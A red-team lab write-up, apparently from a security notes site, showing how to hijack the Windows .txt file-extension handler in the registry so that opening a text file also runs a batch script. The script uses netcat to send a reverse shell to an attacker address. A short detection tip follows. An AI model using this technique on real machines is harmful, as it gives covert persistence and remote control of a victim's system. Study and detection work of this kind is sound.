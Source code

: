 # Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension (among many others) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.&#x20;

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](<../../.gitbook/assets/image (427).png>)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](<../../.gitbook/assets/image (430).png>)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\tools\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](<../../.gitbook/assets/image (429).png>)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of  `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](<../../.gitbook/assets/image (431).png>)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" %}
